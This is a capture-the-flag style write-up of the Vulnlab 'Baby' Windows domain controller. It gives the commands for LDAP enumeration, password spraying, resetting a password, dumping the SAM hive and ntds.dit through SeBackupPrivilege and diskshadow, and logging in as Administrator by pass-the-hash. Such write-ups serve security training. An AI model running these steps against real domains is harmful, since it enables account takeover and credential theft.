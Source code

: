 ```yaml
---
layout: writeup
category: Vulnlab
chall_description: https://wiki.vulnlab.com/guidance/easy/baby
points: 
solves: 
tags: windows
date: 2024-09-05
comments: true
---
```


This is my write-up for the Baby machine from Vulnlab.

# Enumeration

We started executing a full port scan on the host.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ sudo nmap -v -sS -Pn -p- 10.10.98.130 --min-rate=300 --max-rate=500
```

![Untitled](baby/Untitled.png)

Now, we execute a port scan only on the open ports that we have found before.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ sudo nmap -vv -sV -sC -Pn -p 53,88,135,139,389,445,464,593,636,3268,3269,3389,5357,5985,9389 -oA nmap/baby 10.10.98.130
```

![Untitled](baby/Untitled%201.png)

![Untitled](baby/Untitled%202.png)

We found the machine name, the domain, and the domain controller name, so we write it into our local hosts file.

![Untitled](baby/Untitled%203.png)

Now, we execute the `netexec` tool to enumerate the SMB service. We could verify that we can log into the SMB as anonymous.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl --shares
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl -u "" -p "" --shares
```

![Untitled](baby/Untitled%204.png)

But we couldn’t list any shares anonymously. So we try enumerating users with `kerbrute`, also without success. Finally, we enumerate the LDAP service using the `ldapsearch` tool. We could enumerate the accounts that were created on the host, and the default password when a new user is created.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ ldapsearch -H ldap://10.10.98.130 -x -b "DC=baby,DC=vl"
```

![Dev Users](baby/Untitled%205.png)

Dev Users

![IT Users](baby/Untitled%206.png)

IT Users

The Teresa.Bell user has a description field saying “Set the initial password to BabyStart123!”.

![Untitled](baby/Untitled%207.png)

We save those all users found on a list of users, after filtering to generate a clean output with only the correct usernames.

# Exploitation

First, we check if the `Teresa.Bell` has the initial password like in her description field, but we were not successful. So we execute the password spraying technique to verify if any other user has the initial password set.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl -u users.txt -p 'BabyStart123!' --continue-on-success
```

![Untitled](baby/Untitled%208.png)

We could verify the `Caroline.Robinson` user did not change her password. Using the `smbpasswd` tool, we can change the initial password and redefine to one of our choice.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─[☢] $ smbpasswd -r baby.vl -U caroline.robinson
```

![Untitled](baby/Untitled%209.png)

Now, we check if the password really has been changed.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ netexec smb baby.vl -u caroline.robinson -p 'hacker@123'
```

![Untitled](baby/Untitled%2010.png)

We were able to change the `caroline.robinson`’s password. Now we can log into WinRM service as this user.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ evil-winrm -i 10.10.98.130 -u caroline.robinson -p 'hacker@123'
```

![Untitled](baby/Untitled%2011.png)

## Privilege Escalation

Checking the privileges for `caroline.robinson` account, we verify she has the `SeBackupPrivilege` enabled.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> whoami /priv
```

![Untitled](baby/Untitled%2012.png)

With this privilege, we can save the SAM database and de SYSTEM file to retrieve the NTLM hashes for the users.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> reg save hklm\sam sam
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> reg save hklm\system system
```

![Untitled](baby/Untitled%2013.png)

Now we download these files to our local machine.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> download sam
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> download system
```

![Untitled](baby/Untitled%2014.png)

We were able to retrieve the NTLM hashes for the users locally using the secretsdump impacket tool.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ impacket-secretsdump -sam sam -system system LOCAL
```

![Untitled](baby/Untitled%2015.png)

We could not log into WinRM using the Administrator’s hash retrieved before, because this hash is for the local Administrator user, not the Administrator DC user. So we have to retrieve the administrator DC user that is saved in the ntds.dit file. First, we try to create a ***shadow copy*** of the `C:` drive using the `vssadmin` tool, but we do not have permissions to execute it. We tried some other techniques without success.

Searching on the Internet, we could found a technique to retrieve the ntds.dit file through diskshadow:

[Dumping Domain Controller Hashes Locally and Remotely | Red Team Notes](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration)

First, we create a diskshadow script called `script.txt`  with the content and upload it to the host:

```
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

```bash
# uploading the file
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> upload /home/th3g3ntl3m4n/vulnlab/baby/www/script.txt
```

Now, we execute the diskshadow tool to execute our script.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> diskshadow /s script.txt
```

![Untitled](baby/Untitled%2016.png)

Now we copied the `ntds.dit` file from the new drive, (`E:`), created above.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> robocopy /b E:\Windows\ntds . ntds.dit
```

![Untitled](baby/Untitled%2017.png)

Finally, we download the `ntds.dit` file to our local machine and execute the secretsdump tool to retrieve the Administrator’s DC hash.

![Untitled](baby/Untitled%2018.png)

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ impacket-secretsdump -sam sam -system system -ntds ntds.dit LOCAL
```

![Untitled](baby/Untitled%2019.png)

We now just log into the WinRM service as Administrator using the ***Pass-The-Hash (PTH)*** technique.

```bash
╭─[us-free-3]-[10.8.2.220]-[th3g3ntl3m4n@kali]-[~/vulnlab/baby]
╰─ $ evil-winrm -i 10.10.98.130 -u Administrator -H ee4457ae59f1e3fbd764e33d9cef123d
```

![Untitled](baby/Untitled%2020.png)